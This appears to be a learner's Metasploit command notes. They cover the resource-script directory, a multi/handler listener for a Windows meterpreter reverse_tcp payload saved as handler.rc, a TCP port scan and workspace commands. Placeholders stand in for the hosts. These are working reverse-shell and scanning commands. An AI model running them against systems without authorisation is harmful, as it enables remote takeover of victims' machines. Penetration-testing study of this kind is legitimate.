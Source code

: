 	ls -al /usr/share/metasploit-framework/scripts/resource/
	nano /usr/share/metasploit-framework/scripts/resource/auto_brute.rc
	cd Windows_Payloads/
	ls
	msfconsole
	use multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST ip
	set LPORT 1234
	exploit
	nano handler.rc
	use multi/handler
	set PAYLOAD windows/meterpreter/reverse_tcp
	set LHOST ip
	set LPORT 1234
	exploit
	msfconsole -r handler.rc 
	msfconsole
	search portscan
	use auxiliary/scanner/portscan/tcp
	show options
	use auxiliary/scanner/portscan/tcp
	set RHOSTS ip
	exploit
	msfconsole -r portscan.rc
	nano db_status.rc (db_status, workspace, workspace -a test)
	msfconsole -r db_status.rc
	workspace -d test
	exit
	msfconsole
	resource ~/Desktop/Windows_Payloads/handler.rc
	